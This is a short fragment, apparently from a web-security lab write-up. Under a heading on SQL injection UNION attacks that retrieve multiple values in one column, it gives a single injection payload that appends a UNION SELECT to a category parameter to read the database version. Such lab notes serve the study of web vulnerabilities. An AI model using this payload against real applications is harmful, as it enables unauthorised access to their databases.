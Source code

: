 
#### 13. SQL injection UNION attack, retrieving multiple values in a single column
category=Pets'union select NULL,version()-- -
